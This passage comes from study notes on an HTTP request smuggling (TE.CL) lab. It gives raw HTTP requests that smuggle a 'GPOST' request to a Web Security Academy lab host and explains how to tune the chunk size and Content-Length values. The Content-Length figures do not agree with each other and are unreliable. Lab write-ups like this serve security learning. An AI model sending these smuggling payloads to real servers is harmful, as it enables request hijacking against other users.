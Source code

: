 To fix it, the CL of the smuggled body is 5 bytes. To figure out the length of the chunk, select everything from GPOST to the end of the headers (don't include the CRLF before the 0) and see what the hex size is (0x56).

```http
POST / HTTP/1.1
Host: 0ac700d404e6835e81855c1c00af00e6.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
Transfer-Encoding: chunked

56
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

0


```

The CL must be fixed of the actual request. The back-end server should think that the request, using CL, is ended after the `56\r\n` line so the GPOST is smuggled. To do that, the CL should be 4 bytes (`56\r\n`).

```http
POST / HTTP/1.1
Host: 0ac700d404e6835e81855c1c00af00e6.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

56
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

0


```

After sending both requests, a 200 OK request may be returned because the CL was set to 5 bytes which was just the value of the smuggled request body. The minimum value it should be set to is 5 plus one (minimum 6) to include the `G` at the start of the next request.

![[GPOST Works.png]]

>[!info]
>If the extra byte is not defined, when the attack request is sent and has been poisoned with the prefix, when the normal request is sent, it won't be appended to the prefix. Changing it to six, at least one byte of the normal request will be added to the prefix poisoned previously.

The maximum length of the Content-Length you can set in the GPOST request is the CL of the smuggled request body, plus the total CL of the normal request so 5 plus 159 = 164. If the value is more than the total length, it will time out due to the back-end server expecting more bytes that do not exist.
# TE.TE Vulnerabilities
